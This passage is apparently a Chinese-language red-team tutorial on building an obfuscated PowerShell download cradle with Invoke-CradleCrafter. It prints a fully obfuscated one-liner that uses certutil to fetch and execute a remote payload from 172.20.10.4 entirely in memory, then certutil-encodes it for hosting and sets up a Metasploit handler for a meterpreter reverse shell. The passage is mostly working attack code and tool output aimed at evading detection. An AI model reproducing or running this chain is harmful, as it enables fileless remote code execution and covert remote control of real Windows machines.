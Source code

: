 ```plain
Invoke-CradleCrafter\Memory> CERTUTIL

[*] Name          :: Certutil
[*] Description   :: PowerShell leveraging certutil.exe to download payload as string
[*] Compatibility :: PS 2.0+
[*] Dependencies  :: Certutil.exe
[*] Footprint     :: Entirely memory-based
[*] Indicators    :: powershell.exe spawns certutil.exe certutil.exe 
[*] Artifacts     :: C:\Windows\Prefetch\CERTUTIL.EXE-********.pf AppCompat Cache

Invoke-CradleCrafter\Memory\Certutil> ALL


Choose one of the below Memory\Certutil\All options to APPLY to current cradle:

[*] MEMORY\CERTUTIL\ALL\1       Execute ALL Token obfuscation techniques (random order)
```

到这里应该会显示如下代码

```plain
Invoke-CradleCrafter\Memory\Certutil\All> 1

Executed:
  CLI:  Memory\Certutil\All\1
  FULL: Out-Cradle -Url 'http://172.20.10.4/key.txt' -Cradle 17 -TokenArray @('All',1)

Result:
SV 1O6 'http://172.20.10.4/key.txt';.(Get-Command *ke-*pr*) ((C:\Windows\System32\certutil /ping (Get-Item Variable:\1O6).Value|&(Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand.PsObject.Methods|?{(Get-Variable _ -ValueOn).Name-ilike'*and'}).Name).Invoke((Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand|GM|?{(Get-Variable _ -ValueOn).Name-ilike'*Com*e'}).Name).Invoke('*el*-O*',$TRUE,1),[Management.Automation.CommandTypes]::Cmdlet)-Skip 2|&(Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand.PsObject.Methods|?{(Get-Variable _ -ValueOn).Name-ilike'*and'}).Name).Invoke((Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand|GM|?{(Get-Variable _ -ValueOn).Name-ilike'*Com*e'}).Name).Invoke('*el*-O*',$TRUE,1),[Management.Automation.CommandTypes]::Cmdlet)-SkipLa 1)-Join"`r`n")

Choose one of the below Memory\Certutil\All options to APPLY to current cradle:

[*] MEMORY\CERTUTIL\ALL\1       Execute ALL Token obfuscation techniques (random order)
```

将混淆的代码保存到本地为`crt.txt`用`certutil`进行`encode`加密

```plain
certutil -encode crt.txt crt.cer
```

将`cer.cet`放入http服务器目录下，使用msf开启监听

```plain
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.10.11
lhost => 192.168.10.11
msf6 exploit(multi/handler) > set lport 8888
lport => 8888
msf6 exploit(multi/handler) > run
```
